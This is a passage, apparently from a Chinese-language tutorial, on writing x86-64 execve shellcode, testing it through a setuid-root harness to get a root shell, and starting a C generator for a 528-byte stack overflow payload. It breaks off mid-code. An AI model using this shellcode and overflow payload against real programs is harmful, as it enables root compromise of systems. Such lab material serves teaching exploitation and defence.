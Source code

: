 ```x86asm
    # Construct argv[] also on the stack.
    # The later-pushed value's address is smaller, so push NULL before push filename.
    xorq %rbx, %rbx
    pushq %rbx # pushq $0
    pushq %rdi
    movq %rsp, %rsi # Pass argument2 with rsi

    # envp = NULL
    xorq %rdx, %rdx # Pass argument3 with rdx

    # Invoke a execve syscall
    syscall
```

将 Shellcode 编译（而不链接），并检查二进制文件的反汇编结果：

```bash
cc -c -o shellcode shellcode.s
objdump -d shellcode
```

### 测试 Shellcode
将以下程序编译并与 Shellcode 链接，执行以测试 Shellcode：

```c
int main() {
    extern void shellcode();
    shellcode();
    while (1);
}
```

```bash
cc -o shellcode-test shellcode-test.c shellcode.s
sudo chown root:root shellcode-test
sudo chmod 4755 shellcode-test
./shellcode-test
```

观察到 `#` 提示符，即为成功获得了 root Shell。

### 构造输入
提取出 Shellcode 对应的二进制代码并保存为 `shellcode.bin`：

```bash
objcopy -O binary -j .text shellcode shellcode.bin
```

我们需要构造一个长度为 528 字节的输入，其中前若干个字节为 Shellcode，后 8 个字节为 Shellcode 在内存中的地址，中间的若干个字节可以为任意不为 0 的值。以下为 `input-generator.c`：

```c
#include <stdio.h>
#include <string.h>

const int BUFFER_SIZE = 512;
const char *FILE_SHELLCODE = "shellcode.bin";
const char *FILE_INPUT = "input.bin";

int main() {
    unsigned long buffer_pointer;
    scanf("%lu", &buffer_pointer);

    FILE *f = fopen(FILE_SHELLCODE, "rb");

    char buffer[BUFFER_SIZE + 8 * 2]; // buffer + sfp + ret
    memset(buffer, 0xff, sizeof(buffer)); // sfp will be written with 0xffffffffffffffff

```